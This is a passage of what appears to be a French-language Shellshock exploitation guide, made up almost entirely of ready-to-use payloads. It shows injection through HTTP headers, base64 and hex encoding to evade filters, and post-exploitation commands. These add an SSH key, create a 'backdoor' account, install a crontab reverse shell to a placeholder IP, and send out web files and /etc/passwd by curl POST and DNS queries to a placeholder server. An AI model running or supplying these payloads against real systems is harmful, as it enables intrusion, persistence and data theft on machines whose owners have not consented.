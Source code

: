 ### Headers alternatifs à tester
```bash
# Via Referer
Referer: () { :; }; echo; echo; /bin/bash -c 'whoami'

# Via Cookie
Cookie: () { :; }; echo; echo; /bin/bash -c 'id'

# Via Accept
Accept: () { :; }; echo; echo; /bin/bash -c 'uname -a'

# Via X-Forwarded-For
X-Forwarded-For: () { :; }; echo; echo; /bin/bash -c 'ps aux'
```

### Bypass et évasion

#### Encodage des commandes
```bash
# Base64
() { :; }; echo; echo; /bin/bash -c 'echo "d2hvYW1p" | base64 -d | bash'

# Hex encoding
() { :; }; echo; echo; /bin/bash -c 'echo -e "\x77\x68\x6f\x61\x6d\x69" | bash'
```

#### Utilisation de variables
```bash
() { :; }; echo; echo; /bin/bash -c 'cmd="whoami"; $cmd'
```

---

## Phase 5: Post-exploitation

### Persistence
```bash
# Ajouter une clé SSH
() { :; }; echo; echo; /bin/bash -c 'echo "ssh-rsa YOUR_PUBLIC_KEY" >> ~/.ssh/authorized_keys'

# Créer un utilisateur backdoor
() { :; }; echo; echo; /bin/bash -c 'useradd -m -s /bin/bash backdoor'

# Crontab pour persistence
() { :; }; echo; echo; /bin/bash -c 'echo "* * * * * /bin/bash -c \"bash -i >& /dev/tcp/<your_ip>/<port> 0>&1\"" | crontab -'
```

### Exfiltration de données
```bash
# Compresser et exfiltrer
() { :; }; echo; echo; /bin/bash -c 'tar -czf /tmp/data.tar.gz /var/www/html && curl -X POST -F "file=@/tmp/data.tar.gz" http://<your_server>/upload'

# Exfiltration via DNS
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd | xxd -p | tr -d "\n" | sed "s/.\{60\}/&./g" | while read line; do nslookup $line.<your_domain>; done'
```

---